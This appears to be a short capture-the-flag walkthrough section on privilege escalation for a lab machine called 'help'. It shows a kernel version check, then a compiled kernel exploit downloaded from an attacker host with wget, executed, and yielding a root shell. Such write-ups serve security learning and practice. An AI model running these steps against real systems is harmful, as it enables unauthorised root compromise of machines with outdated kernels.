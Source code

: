 # 15 - PrivEsc

# Old linux
```bash
help@help:/home/help$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

The linux kernel is from 2018, it is another outdated kernel considering the box is published in 2019.

# Kernel Exploit
![](vx_images/1139705269532.png)

Download  the exploit and compile.

# Root
```bash
help@help:/home/help$ wget 10.10.14.14/a.out
help@help:/home/help$ chmod +x a.out 
help@help:/home/help$ ./a.out 
task_struct = ffff880039252a00
uidptr = ffff8800161cd144
spawning root shell
root@help:/home/help# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
```
